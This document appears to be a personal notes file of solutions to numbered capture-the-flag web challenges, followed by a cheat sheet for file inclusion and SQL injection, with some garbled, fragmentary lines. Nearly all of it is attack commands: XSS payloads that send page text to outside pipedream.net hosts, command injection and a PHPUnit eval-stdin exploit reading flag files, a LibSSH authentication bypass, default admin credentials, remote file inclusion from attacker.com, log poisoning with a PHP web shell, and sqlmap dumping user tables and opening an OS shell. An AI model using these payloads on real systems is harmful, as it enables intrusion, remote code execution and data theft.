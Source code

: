 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password

7 alfa-cookies- https://drive.google.com/file/d/1YjUzKJJnrR0L5DNr3H8GSDFRz73d6ekM/view

8 nondiff-backdoor   grep -r "shell.exec"    34.159.62.179:30876/?welldone=knockknock&shazam=cat flag.php    CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

9 schematick sqlmap -u http://34.159.62.179:32027/index.php  --cookie="PHPSESSID=e40e1c0f2baba9b6b6d07033355f0819" --forms --columns


10 elastic python exploit.py http://35.198.97.185:31763/ /etc/passwd
11 libshh   nmap -sV -p 30908 --version-light 34.40.24.84
   https://github.com/nikhil1232/LibSSH-Authentication-Bypass  python3 LibAuth.py --host 34.40.24.84 -p 30908 -c "cat /flag.txt"

12 authorization  dirsearch -u IP                     curl -X POST http://34.159.62.179:30798/auth             (aplikacia) ModHeader: Authorization        JWT   <TOKEM>

13 PHPunit  http://35.246.139.54:31380/composer.json    curl -X POST --data '<?php system("id"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php


curl -X POST --data '<?php system("cat /flag.txt"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

14


https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown
slightly-broken
ping-station
downloader-v1
puzzled)





































საბაზისო LFI:

http://example.com/?page=../../../../etc/passwd
http://example.com/?file=file:///etc/passwd
PHP Wrapper-ები:

http://example.com/?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/?page=data://text/plain,<?php system("id"); ?>
RFI (Remote File Inclusion):

http://example.com/?page=http://attacker.com/shell.txt
Log Poisoning (Apache/Nginx):

curl "http://example.com" -H "User-Agent: <?php system($_GET['cmd']); ?>"
http://example.com/?page=/var/log/apache2/access.log&cmd=id


sqlmap -u "http://example.com/?id=1" --dbs
sqlmap -u "http://example.com/?id=1" -D database_name --tables
sqlmap -u "http://example.com/?id=1" -D database_name -T users --dump
sqlmap -u "http://example.com/?id=1" --os-shell
